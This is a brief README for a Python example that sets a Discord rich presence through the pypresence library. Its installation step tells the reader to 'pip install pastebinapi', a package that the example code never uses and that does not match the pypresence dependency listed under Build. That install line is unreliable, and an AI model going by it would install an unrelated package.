 # RPC_Discord_Simple

# INSTALLATION 
>## ```pip install pastebinapi```


# EXEMPLE
```py
from pypresence import Presence
import time

client_id = 'ID'  # Fake ID, put your real one here
RPC = Presence(client_id)  # Initialize the client class
RPC.connect() # Start the handshake loop

print(RPC.update(state="Lookie Lookie", details="A test of qwertyquerty's Python Discord RPC wrapper, pypresence!"))  # Set the presence

while True:  # The presence will stay on as long as the program is running
    time.sleep(15) # Can only update rich presence every 15 seconds
```

## Build
* [Pypresence](https://pypi.org/project/pypresence/)
* [Python](https://www.python.org/)
